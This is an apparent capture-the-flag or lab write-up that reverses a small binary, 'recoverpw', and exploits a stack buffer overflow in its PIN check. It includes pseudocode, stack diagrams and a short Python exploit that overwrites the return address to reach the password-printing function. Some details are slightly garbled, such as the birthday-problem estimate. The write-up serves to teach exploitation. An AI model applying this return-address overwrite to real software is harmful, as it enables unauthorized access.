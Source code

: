 ﻿# Alice Write Up
### by Tilden Jackson (thjackso)
## Content
* [Binary Reversing](#reversing)
* [Vulnerability Details](#exploit-details)
* [Working Exploit](#working-exploit)
## Reversing
This code `./recoverpw` has 3 main functions to consider: `main, chk_pin, 
recover_passwd`. We start by running the code to take a look at what it does:
\
![After running it we are prompted for our one-time PIN. If we get it wrong we get authentication failed.](https://i.postimg.cc/V6HCVsP0/UserRun.png)

Looking deeper at the binary we can get a deeper look at how it works:
![Main function disassembled](https://i.postimg.cc/xCdm5JhS/MainFunc.png)
The main function generates a random number and uses that as the input for a function `chk_pin`. 

Looking at `chk_png` we see:
![Check Pin read-in](https://i.postimg.cc/3xg2xHmz/chk-pin1.png)
The function `chk_pin` takes a user input and stores it into a buffer. However the program uses read of 0x40bytes whereas the buffer is less than 0x40bytes allocated. This will allow us to attack this program with a buffer overflow

If we get the PIN correct we call `recover_passwd` which just prints out the password. If we get it wrong, we return -1 as fail.
![Check Pin check flow](https://i.postimg.cc/MG5R1bsD/chk-pin2.png)
That is the main functionality of the code because `recover_passwd` just prints out the password directly.

I will include the disassembled `recover_passwd` for completeness: 
![Recover Password](https://i.postimg.cc/5yYCdcf7/recover-passwd.png)

---
A pseudocode of this binary would look like: 
```
int chk_pin(int PIN);
void recover_passwd(); //print password

int main(){
	srand(time(NULL));
	int PIN = rand();
	if (chk_pin(PIN) == 0){
		...	
	}
}

int chk_pin(int PIN){
	char buf[0x28buf];
	if(write(...) == -1){
		error(...);
	}
	if (read(stdin, &buf, 0x40) == -1){
		error(...);
	}
	int inputPIN = atoi(buf);
	if (inputPIN == PIN){
		recover_passwd();
		return 0;
	} else{
		write(BAD);
		return -1;
	}
}
```
\
**Vulnerabilities**
There are actually two vulnerabilities here. One is taking advantage of the random number generation to brute-force/guess it which (using the birthday problem) we know will only take 1/2 \sqrt(2**64) attempts on average. This might take a while so if we cannot capture the random number through reading it with gdb--which would skip us needing to guess it--we need a different angle. 

The exploit we will use here is buffer overflow to write our own return address with the address of `recover_passwd`

## Exploit Details

There are no countermeasures in the program. Thus we can just directly exploit it by overfilling the buffer up to the return address of the function and put our own return address. The address we choose is important though. We must choose the address of `recover_passwd` however we must jump to `0x40129b` in `recover_passwd` which is right when it sets up the stack but after the push and endbrk64 call which will cause us to segfault due to alignment.

Normally the stack diagram of the `chk_pin` function looks like

```
| Addr relative to rbp | val |
------------------------------
| +0x8  | 0x0000000000401420 | normal return address
------------------------------ <- old(%rsp)
| +0x0  | ...                | old(rbp)
------------------------------ <- %rbp
| -0x4  | ...                | result of write @0x40136c            
------------------------------
| -0x8  | ...                | result of read  @0x40139a
------------------------------
|       |                    |
| -0x30 | Guessed PIN        | buf[0x28]
|       |                    |
------------------------------
| -0x34 | PIN                | arg1 to chk_pin 
------------------------------
| -0x40 |                    |
------------------------------ <-%rsp
```

We overflow the buf with 0x38 bytes and then put in our own return address to move the instruction pointer to where we want. After the exploit it will look like:
```
| Addr relative to rbp | val |
------------------------------
| +0x8 | 0x000000000040129b | return address
------------------------------ <- old(%rsp)
| +0x0  | aaaaaaaaa          | old(rbp)
------------------------------ <- %rbp
| -0x4  | aaaa               |       
------------------------------
| -0x8  | aaaa               |
------------------------------
|       |                    |
| -0x30 | aaaaaaaaaaaa...aaa | buf[0x28]
|       |                    |
------------------------------
| -0x34 | PIN                | arg1 to chk_pin 
------------------------------
| -0x40 |                    |
------------------------------ <-%rsp
```

## Working Exploit
The exploit is as we described and our alice.txt looks like this: `[b"a"*0x38+b"\x9b\x12\x40"]`
As a python script we would have:
```
#!/usr/bin/python3
# File: exploit.py

import struct
import subprocess

exploited_file = "./recoverpw"

new_ret_addr = 0x40129b
exploit = b"a"*0x38 + struct.pack("<Q",new_ret_addr)

print("Injecting:",exploit,end=f"\n\n{'-'*20}\n[{exploited_file}]\n")

subprocess.run([exploited_file], input=exploit)
```

\
To check we run `python3 exploit.py` in the same directory and we have
![Exploit Result](https://i.postimg.cc/R04K3bTh/exploit.png)

